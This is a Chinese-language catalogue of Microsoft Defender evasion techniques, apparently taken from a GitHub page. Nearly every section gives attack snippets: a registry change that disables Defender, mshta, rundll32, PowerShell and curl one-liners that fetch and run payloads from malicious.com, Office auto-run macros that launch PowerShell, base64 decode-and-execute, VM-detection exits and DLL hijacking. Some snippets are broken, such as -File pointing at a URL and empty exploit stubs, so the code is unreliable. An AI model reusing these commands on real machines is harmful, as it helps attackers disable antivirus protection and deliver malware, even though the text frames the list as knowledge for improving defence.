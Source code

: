 Microsoft Defender是Windows系统中的内置防病毒和反恶意软件解决方案。尽管Defender提供了强大的保护功能，但攻击者仍然可以使用各种技术来规避其检测。以下是一些常见的Defender防御规避技术及详细例子：

### 1. 禁用或修改Defender设置

#### 例子：
- **通过注册表禁用Defender**：
  修改注册表键值来禁用Defender。
  ```powershell
  Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 1
  ```

- **通过组策略禁用Defender**：
  利用组策略对象（GPO）禁用Defender。
  ```powershell
  Invoke-Expression "gpedit.msc"
  ```

### 2. 使用合法进程和工具

#### 例子：
- **利用mshta.exe**：
  使用合法的mshta.exe进程执行恶意代码。
  ```cmd
  mshta.exe http://malicious.com/malicious.hta
  ```

- **利用rundll32.exe**：
  使用合法的rundll32.exe进程加载和执行恶意DLL。
  ```cmd
  rundll32.exe shell32.dll,ShellExec_RunDLL "http://malicious.com/malicious.dll"
  ```

### 3. 混淆和编码

#### 例子：
- **Base64编码**：
  将恶意代码Base64编码，然后在内存中解码并执行。
  ```powershell
  $encoded = "aW5zdGFsbC1wYWNrYWdlIE5ldC5OZXR3b3Jr"
  $decoded = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($encoded))
  Invoke-Expression $decoded
  ```

- **字符串混淆**：
  将恶意代码分割成多个部分，然后在运行时拼接执行。
  ```powershell
  $part1 = "Invoke-"
  $part2 = "Expression"
  $command = $part1 + $part2
  Invoke-Expression $command
  ```

### 4. 环境检测和逃避

#### 例子：
- **检测虚拟环境**：
  如果检测到在虚拟环境中运行，则退出或改变行为。
  ```powershell
  if ((Get-WmiObject -Class Win32_ComputerSystem).Manufacturer -eq 'VMware, Inc.') { exit }
  ```

- **延时执行**：
  使用延时执行绕过实时检测。
  ```powershell
  Start-Sleep -Seconds 60
  Invoke-Expression -Command (New-Object Net.WebClient).DownloadString("http://malicious.com/script.ps1")
  ```

### 5. 利用WMI

#### 例子：
- **通过WMI执行代码**：
  使用WMI（Windows Management Instrumentation）执行恶意代码。
  ```powershell
  $wmi = [wmiclass]"\\.\root\cimv2:Win32_Process"
  $wmi.Create("powershell.exe -ExecutionPolicy Bypass -File malicious_script.ps1")
  ```

### 6. 利用脚本解释器

#### 例子：
- **使用cscript或wscript**：
  利用合法的脚本解释器执行恶意代码。
  ```cmd
  cscript.exe malicious_script.vbs
  ```

- **使用PowerShell**：
  通过PowerShell执行恶意代码，绕过Defender的检测。
  ```powershell
  powershell.exe -ExecutionPolicy Bypass -File malicious_script.ps1
  ```

### 7. 文件格式和嵌入

#### 例子：
- **嵌入恶意代码**：
  将恶意代码嵌入到被信任的文件格式中，例如Office文档或PDF。
  ```vbscript
  ' VBA Macro in Excel
  Sub Auto_Open()
      Call Shell("powershell.exe -ExecutionPolicy Bypass -File http://malicious.com/payload.ps1")
  End Sub
  ```

- **使用非典型文件格式**：
  利用非典型或不常见的文件格式执行恶意操作。
  ```cmd
  certutil.exe -decode encoded_payload.txt payload.exe
  ```

### 8. DLL劫持

#### 例子：
- **DLL劫持**：
  攻击者可以将恶意DLL放在目标应用程序的目录中，当应用程序加载DLL时，优先加载恶意DLL。
  ```powershell
  Copy-Item -Path "C:\malicious.dll" -Destination "C:\Program Files\TargetApp\legit.dll"
  ```

### 9. 网络流量隐藏

#### 例子：
- **域前置**：
  使用合法的域名作为前置，隐藏恶意流量。
  ```cmd
  curl -H "Host: legitimate.com" http://malicious.com/payload
  ```

- **使用加密流量**：
  通过加密通信隐藏恶意活动。
  ```powershell
  $client = New-Object System.Net.WebClient
  $client.DownloadString("https://malicious.com/payload")
  ```

### 10. 利用宏和脚本

#### 例子：
- **利用Office宏**：
  利用Office宏执行恶意代码。
  ```vbscript
  ' VBA Macro in Word document
  Sub AutoOpen()
      Call Shell("powershell.exe -ExecutionPolicy Bypass -File http://malicious.com/malicious.ps1")
  End Sub
  ```

- **利用JavaScript**：
  利用浏览器或其他JavaScript运行环境执行恶意代码。
  ```javascript
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "http://malicious.com/payload", true);
  xhr.send();
  ```

### 11. 利用合法软件的漏洞

#### 例子：
- **利用Office漏洞**：
  通过已知的Office漏洞执行恶意代码。
  ```vbscript
  ' Exploit code for a specific Office vulnerability
  ```
  
- **利用浏览器漏洞**：
  通过已知的浏览器漏洞执行恶意代码。
  ```javascript
  // Exploit code for a specific browser vulnerability
  ```

通过这些技术，攻击者可以有效地绕过Microsoft Defender的防御，执行恶意代码。了解这些规避技术对于提升检测和防御能力至关重要。